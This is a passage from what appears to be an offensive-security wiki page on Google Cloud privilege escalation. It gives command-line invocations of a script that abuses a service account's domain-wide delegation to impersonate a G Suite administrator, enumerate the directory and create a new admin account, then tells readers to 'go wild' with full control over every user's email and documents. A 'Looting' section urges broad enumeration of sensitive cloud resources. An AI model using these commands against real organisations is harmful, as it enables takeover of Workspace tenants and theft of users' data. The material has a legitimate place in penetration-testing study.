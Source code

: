 ```bash
# Validate access only
./gcp_delegation.py --keyfile ./credentials.json \
    --impersonate steve.admin@target-org.com \
    --domain target-org.com

# List the directory
./gcp_delegation.py --keyfile ./credentials.json \
    --impersonate steve.admin@target-org.com \
    --domain target-org.com \
    --list

# Create a new admin account
./gcp_delegation.py --keyfile ./credentials.json \
    --impersonate steve.admin@target-org.com \
    --domain target-org.com \
    --account pwned
```

You can try this script across a range of email addresses to impersonate **various** **users**. Standard output will indicate whether or not the service account has access to Workforce, and will include a **random password for the new admin accoun**t if one is created.

If you have success creating a new admin account, you can log on to the [Google admin console](https://admin.google.com) and have full control over everything in G Suite for every user - email, docs, calendar, etc. Go wild.

### Looting

Another promising way to **escalate privileges inside the cloud is to enumerate as much sensitive information as possible** from the services that are being used. Here you can find some enumeration recommendations for some GCP services, but more could be used so feel free to submit PRs indicating ways to enumerate more services:

{% hint style="info" %}
Note that you can enumerate most resources with `list` (list items of that type), `describe` (describe parent and children items) and `get-iam-policy` (get policy attached to that specific resource).
{% endhint %}

There is a gcloud API endpoint that aims to **list all the resources the accessible from the used user accoun**t, it's in alpha bet and only supports a couple of resources, but maybe in the future you can list all you have access to with it: [https://helpmanual.io/man1/gcloud\_alpha\_resources\_list/](https://helpmanual.io/man1/gcloud\_alpha\_resources\_list/)

{% content-ref url="gcp-buckets-enumeration.md" %}
[gcp-buckets-enumeration.md](gcp-buckets-enumeration.md)
{% endcontent-ref %}

{% content-ref url="gcp-compute-enumeration.md" %}
[gcp-compute-enumeration.md](gcp-compute-enumeration.md)
{% endcontent-ref %}

{% content-ref url="gcp-network-enumeration.md" %}
[gcp-network-enumeration.md](gcp-network-enumeration.md)
{% endcontent-ref %}
